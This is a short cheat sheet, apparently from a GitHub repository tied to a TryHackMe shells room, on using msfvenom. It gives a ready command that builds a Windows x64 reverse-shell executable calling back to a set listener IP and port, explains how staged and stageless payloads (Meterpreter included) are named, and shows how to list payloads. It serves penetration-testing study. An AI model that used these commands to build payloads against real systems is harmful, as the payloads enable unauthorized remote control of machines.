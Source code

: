 ### msfvenom

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### Standard msfvenom Syntax
```
msfvenom -p [PAYLOAD] [OPTIONS]
```
Generate a Windows x64 Reverse Shell:
```
msfvenom -p windows/x64/shell/reverse_tcp -f [FORMAT] -o [OUTPUT-FILE] LHOST=[LISTEN-IP] LPORT=[LISTEN-PORT]
```
Example:
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.86.86 LPORT=4774
```

*********************************************************************************

### Payload Naming Conventions

Basic Convention:
```
[OS]/[ARCH]/[PAYLOAD]
```
Example:
```
linux/x86/shell_reverse_tcp
```
Windows 32bit Exception Example:
```
windows/shell_reverse_tcp
```
Stageless payloads are denoted with underscores _
```
shell_reverse_tcp
```
Staged payloads are denoted with another forward slash /
```
shell/reverse_tcp
```
This rule applies to Meterpreter payloads
Windows 64bit staged Meterpreter payload Example:
```
windows/x64/meterpreter/reverse_tcp
```
Linux 32bit stageless Meterpreter payload Example:
```
linux/x86/meterpreter_reverse_tcp
```

*********************************************************************************

### List All Available Payloads
```
msfvenom --list payloads
```
Can be used with grep:
```
msfvenom --list payloads | grep "linux/x86/meterpreter"
```

*********************************************************************************

### Reference
https://tryhackme.com/room/introtoshells
